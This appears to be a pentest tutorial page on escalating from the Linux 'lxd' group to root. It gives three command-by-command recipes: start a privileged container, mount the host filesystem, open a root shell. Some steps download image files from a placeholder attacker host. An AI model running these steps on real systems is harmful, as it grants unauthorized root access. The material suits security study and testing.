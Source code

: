 # Lxd

## Theory

A member of the local `lxd` group can instantly **escalate the privileges to root** on the host operating system. This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. The vulnerability exists even with the `LXD` snap package.

LXD is a root process that carries out actions for anyone with write access to the `LXD` UNIX socket. It often does not attempt to match the privileges of the calling user. There are multiple methods to exploit this.

## Practice

{% tabs %}
{% tab title="Exploit - 1" %}
We can build an Alpine image using [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder) and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

On the host, build an image as follow&#x20;

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpines
```

Then, we can upload to the vulnerable server the **tar.gz** file

```bash
#On attacking machine
sudo python -m http.server 80

#On vulnerable server
wget http://<ATTACKING_IP>/apline-v3.10-x86_64-20191008_1227.tar.gz
```

On the vulnerable server, import the new image

```bash
# It's important doing this from YOUR HOME directory on the victim machine, or it might fail.
lxc image import ./alpine*.tar.gz --alias myimage
lxc image list #List images
```

Now we can create the container

```bash
lxd init
lxc init myimage mycontainer -c security.privileged=true
# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

Execute the container

```bash
lxc start mycontainer
lxc exec mycontainer /bin/sh
```
{% endtab %}

{% tab title="Exploit - 2" %}
**On the attacking machine**, we can install [distrobuilder](https://github.com/lxc/distrobuilder) and build an image as follow

```bash
#Install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
git clone https://github.com/lxc/distrobuilder
#Make distrobuilder
cd distrobuilder
make
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```

Then, we can upload to the vulnerable server the files **lxd.tar.xz** and **rootfs.squashfs**

```bash
#On attacking machine
sudo python -m http.server 80

#On vulnerable server
wget http://<ATTACKING_IP>/lxd.tar.xz
wget http://<ATTACKING_IP>/rootfs.squashfs
```

On the vulnerable server, import the new image

```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image
```

Create a container and add root path

```bash
lxc init alpine privesc -c security.privileged=true
lxc list #List containers

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

{% hint style="danger" %}
If you find this error _**Error: No storage pool found. Please create a new storage pool**_\
Run **`lxd init`** and **repeat** the previous chunk of commands
{% endhint %}

Execute the container

```bash
lxc start privesc
lxc exec privesc /bin/sh
$ cd /mnt/root #Here is where the filesystem is mounted
```
{% endtab %}

{% tab title="Exploit - With Internet" %}
If your target has an internet access, we can do as follow

```bash
lxc init ubuntu:16.04 test -c security.privileged=true
lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
lxc start test
lxc exec test bash
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation" %}

{% embed url="https://www.hackingarticles.in/lxd-privilege-escalation/" %}
